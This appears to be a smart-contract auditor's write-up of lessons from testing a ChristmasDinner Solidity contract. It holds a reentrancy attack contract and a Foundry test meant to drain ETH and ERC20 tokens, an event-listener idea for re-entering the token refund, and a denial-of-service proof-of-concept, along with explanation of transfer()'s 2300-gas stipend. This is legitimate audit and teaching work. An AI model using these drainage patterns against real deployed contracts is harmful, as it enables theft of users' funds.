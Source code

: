 ## ATTACK VECTORS AND LEARNING

# 1 TRANSFER FUNCTION VS LOW LEVEL CALL FUNCTION

If you go into the related report for the ChristmasDinner protocol, you will see where i reported that reentrancy into the contract was possible via the refund function of the contract due to the modifier not setting the locked variable to true. When attempting to prove this, i tried to use my normal reentrancy strategy by defining what i wanted to do in the receive function of my attack contract. See attack contract code below:

<details>
<summary> Attack Contract </summary>

```javascript
 //SDPX-license-Identifier: MIT

pragma solidity 0.8.27;

import {ChristmasDinner} from "./ChristmasDinner.sol";
import {IERC20} from "../lib/openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";
import {SafeERC20} from "../lib/openzeppelin-contracts/contracts/token/ERC20/utils/SafeERC20.sol";
import {Test, console} from "forge-std/Test.sol";

contract AttackContract is Test {
    address payable public target;
    uint256 public constant TARGETVALUE = 2 ether;
    address[] public wlist;

    event FallbackTriggered(uint256 balance, uint256 entrancefee);

    constructor(
        address payable _target,
        address _WBTC,
        address _WETH,
        address _USDC
    ) {
        target = _target;
        wlist.push(_WBTC);
        wlist.push(_WETH);
        wlist.push(_USDC);
    }

    function deposit() public {
        for (uint i = 0; i < wlist.length; i++) {
            IERC20(wlist[i]).approve(target, TARGETVALUE);
            ChristmasDinner(target).deposit(wlist[i], TARGETVALUE);
        }
    }

    receive() external payable {
        uint256 initialGas = gasleft();
        console.log(initialGas);
        uint256 gasForRefund = (initialGas * 80) / 100; // Reserve some gas for other operations

        // If there's enough gas, proceed with calling the refund function
        require(gasForRefund > 0, "Not enough gas to execute refund");
        if (
            target.balance >= TARGETVALUE ||
            IERC20(wlist[0]).balanceOf(target) >= TARGETVALUE ||
            IERC20(wlist[1]).balanceOf(target) >= TARGETVALUE ||
            IERC20(wlist[2]).balanceOf(target) >= TARGETVALUE
        ) {
            // Call the refund function with sufficient gas
            (bool success, ) = target.call{gas: gasForRefund}(
                abi.encodeWithSignature("refund()")
            );
            require(success, "Refund failed");
        }
    }

    fallback() external payable {
        deposit();
        target.call{value: 1 ether}("");
    }
}

```

</details>

This was the test I attempted to use to test this:

<details>
<summary>Test to prove reentrancy (see test script) </summary>

```javascript
 function test_attacktime() public {
        vm.deal(user1, 10e18);
        vm.deal(user2, 10e18);
        vm.deal(user3, 10e18);
        vm.startPrank(user1);
        cd.deposit(address(wbtc), 1e18);
        cd.deposit(address(weth), 1e18);
        cd.deposit(address(usdc), 1e18);
        address(cd).call{value: 1 ether}("");
        vm.stopPrank();
        vm.startPrank(user2);
        cd.deposit(address(wbtc), 1e18);
        cd.deposit(address(weth), 1e18);
        cd.deposit(address(usdc), 1e18);
        address(cd).call{value: 1 ether}("");
        vm.stopPrank();
        vm.startPrank(user3);
        cd.deposit(address(wbtc), 1e18);
        cd.deposit(address(weth), 1e18);
        cd.deposit(address(usdc), 1e18);
        address(cd).call{value: 1 ether}("");
        vm.stopPrank();
        address attackaddy = vm.addr(1);
        vm.deal(attackaddy, 100e18);
        vm.startPrank(attackaddy);
        address(ac).call{value: 2 ether}(abi.encodeWithSignature("random()"));
        (bool success, bytes memory returndata) = address(ac).call{
            value: 2 ether
        }("");
        console.log(address(ac).balance);

        vm.stopPrank();
        assertEq(address(ac).balance, 9 ether);
        assertEq(wbtc.balanceOf(address(ac)), 4e18);
        assertEq(weth.balanceOf(address(ac)), 4e18);
        assertEq(usdc.balanceOf(address(ac)), 4e18);
        assertEq(address(ac).balance, 9 ether);
    }

```

</details>

None of this went to plan for a number of reasons I will explain and in this explanation, you will understand the difference between the transfer function and the low level call function. I ran into 2 major problems when running these tests. I will start with the one more relevant to the learning point which is the fact that the test always eneded up with the following error in foundry:

<details>
<summary>Test to prove reentrancy (see test script) </summary>

├─ [28842] AttackContract::receive{value: 2000000000000000000}()
│ ├─ [0] console::log(1056066064 [1.056e9]) [staticcall]
│ │ └─ ← [Stop]
│ ├─ [24782] ChristmasDinner::refund()
│ │ ├─ [3303] ERC20Mock::transfer(AttackContract: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], 2000000000000000000 [2e18])
│ │ │ ├─ emit Transfer(from: ChristmasDinner: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b], to: AttackContract: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], value: 2000000000000000000 [2e18])
│ │ │ └─ ← [Return] true
│ │ ├─ [3303] ERC20Mock::transfer(AttackContract: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], 2000000000000000000 [2e18])
│ │ │ ├─ emit Transfer(from: ChristmasDinner: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b], to: AttackContract: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], value: 2000000000000000000 [2e18])
│ │ │ └─ ← [Return] true
│ │ ├─ [3303] ERC20Mock::transfer(AttackContract: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], 2000000000000000000 [2e18])
│ │ │ ├─ emit Transfer(from: ChristmasDinner: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b], to: AttackContract: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], value: 2000000000000000000 [2e18])
│ │ │ └─ ← [Return] true
│ │ ├─ [2300] AttackContract::receive{value: 1000000000000000000}()
│ │ │ ├─ [0] console::log(2241) [staticcall]
│ │ │ │ └─ ← [Stop]
│ │ │ ├─ [910] ChristmasDinner::refund()
│ │ │ │ └─ ← [OutOfGas] EvmError: OutOfGas
│ │ │ └─ ← [OutOfGas] EvmError: OutOfGas
│ │ └─ ← [Revert] EvmError: Revert

</details>

What you can see is that the test is showing an out of gas error which made no sense to me so i decided to do random things that adjust block gas limit, etc and it didnt work. So i saw that the gas issue was occuring immediately my attack contract received the first refund from the christmas dinner contract and then the logic from my receive function was to run which was a function that would call refund again obviously to try and drain the contract. So i decided to check how much gas was being used in each receive function call. there is a solidity global function called gasleft() that returns how much gas is left when a function is running so if you look in the receive function, i used this to log how much gas each receive call was using to know why the out of gas error was showing up.

As you can see from the error above, in the first receive function, the gas allocated is about 1 million gwei which is actually way too much and you wont see this a lot as that is a lot of money just for one function. However, once the first refund happens and my attack contract receives it and wants to call refund again, the gasleft is now 2241 which had me dumbfounded becausw how can 1 million gas just change to 2241. After some debugging, i looked in the refund function that my receive function and I saw that when the contract was refunding eth to my attack contract, this was the function that was running:

```javascript
function _refundETH(address payable _to) internal {
        uint256 refundValue = etherBalance[_to];
        //_to.call{value: refundValue}("");
        _to.transfer(refundValue);
        etherBalance[_to] = 0;
    }
```

The key was in that transfer function. I noticed that when i changed the transfer function to a low level call function that just transfers eth to my attack contract, i am able to drain all the eth from the contract. so I knew that even though the transfer function and the low level call do the same thing, there are slight nuances that i didnt know about in terms of gas usage with that transfer function. In my research, this is what i found:

In Solidity, security concerns around sending Ether to contracts are a major reason why transfer() is often considered safer than call{value:}. The specific security feature that makes transfer() safer is its gas limitation.

When you use transfer(), the receiving contract (if it's a contract) can only receive a fixed 2300 gas. This small amount of gas is enough to log an event and execute basic logic like emitting a Transfer event, but it is intentionally limited.
This limitation is key because it prevents the receiving contract from performing complex operations, like making additional calls to other contracts or sending Ether to other addresses.

Because transfer() only forwards 2300 gas to the receiving contract, it severely limits the possibilities for a contract to call back into the sender or perform any complex logic.This small gas stipend is intentionally restrictive, ensuring that the contract can't re-enter the sender contract and thus mitigating the risk of reentrancy attacks. On the other hand, call{value:} forwards all remaining gas (by default), which means that the receiving contract can perform more complex operations, including calling back into the sender contract. This makes call{value:} more flexible but also more dangerous, as it doesn't have the same gas restrictions. If the receiving contract has a malicious function or is poorly designed, it could potentially exploit this flexibility to trigger reentrancy attacks or other vulnerabilities in the sender contract.

When the transfer function in Solidity is used to send Ether to an address, the gas handling works as follows:
The transfer function in Solidity sends a fixed amount of gas (2300 gas) to the recipient's fallback or receive function. This is done for safety reasons to limit the execution of complex logic in the recipient's contract, preventing potential reentrancy attacks or excessive gas usage.

The transfer function sends exactly 2300 gas to the recipient's address. This fixed gas stipend is part of the transfer mechanism and cannot be adjusted.
The recipient of the Ether (the to address in \_to.transfer(value)) gets the gas. If the recipient is an EOA (Externally Owned Account), the gas is effectively unused, as EOAs do not execute any logic. If the recipient is a smart contract, the gas is made available for executing the contract's receive or fallback function (if defined).

There have been some suggestions and potential EIP's to increase the gas limit on the transfer function have been discussed. See discussions in links below:

https://github.com/ethereum/EIPs/issues/1285
https://ethereum.stackexchange.com/questions/59197/transfer-function-gas-limit-why-2-300

So this perfectly explains why the transfer function was used. Now whoever wrote this thought they were smart. This led to my second problem when trying to drain my contract like i did above. when refunding erc20's once the erc20 is refunded, the balance is set to 0 and this function is internal which means i cannot directly call it. it is called in the refund function but when i call refund, it calls refund erc20 which does the following:

```javascript
 function _refundERC20(address _to) internal {
        //a could have _to as a payable address to allow consistency with refund function and avoid conversion
        i_WETH.safeTransfer(_to, balances[_to][address(i_WETH)]); //q why not loop through whitelisted tokens and transfer all of them?
        i_WBTC.safeTransfer(_to, balances[_to][address(i_WBTC)]);
        i_USDC.safeTransfer(_to, balances[_to][address(i_USDC)]);
        balances[_to][address(i_USDC)] = 0;
        balances[_to][address(i_WBTC)] = 0;
        balances[_to][address(i_WETH)] = 0;
    }

```

So i cannot reenter the refund function because by the time i call refund again, all my balances are set to 0 as the \_refunderc20 function would have finished running before i can call refund again and i saw this was the case when i temporarily changes the transfer function to low level call during debugging to see the outcome. what they dont know is that i can simply set up an event listener as each safetransfer function in this \_refunderc20 emits an event so i can set up a listener to listen for the Transfer event and once it happens, i know that one of these transfersis done and i can recall refund function which will reenter this \_refunderc20 function before the balances get reset and i can keep doing this until i drain all balances of all erc20's in the contract. I used ethers and hardhat to do it. you can see the test in the report and also in the haerdhatlistenerv2 folder in the eventslistener.js file.

# 2 PAYABLE FUNCTIONS ALLOW RECEIVING ETHER

When writing the POC for my L-1 finding about DOS attack being possible (see report). The first contract I wrote that could send ether but not receive ether was as follows:

```javascript

//SDPX-License-Identifier: MIT

pragma solidity 0.8.27;

import {ChristmasDinner} from "./ChristmasDinner.sol";

contract EmptyContract {
address payable public target;

    constructor(address _target) payable {
        target = payable(_target);
        target.call{value: 1 ether}("");
        ChristmasDinner(target).refund();
    }

}
```

the idea was thatif a user tried to call refund with a smart contract that had no receive function, it would revert and cause a DOS. With this contract, the problem was that i set the constructor to payable and that payable keyword not only means the function can send ether but it means it can receive ether as well. so when this contract is deployed, it calls the refund function which allows it to receive ether so on deployment of the contract, i expected a revert that never happened because i called the refund function inside a payable constructor which meant that the christmas dinner contract could send me that either back within this function. I had to refactor this to remove the refund function from the payable constructor and call it seperately in the test script. Calling it seperately means it is its own function and not in the constructor which means when the christmas dinner attempts to send ether, it will look for a receive or fallback which isnt in my contract and it will revert as expected (see report for correct test).

CALLING REFUND IN CONSTRUCTOR IS PAYABLE SO ALLOWED TO RECEIVE ETH . KEEP THIS IN MIND
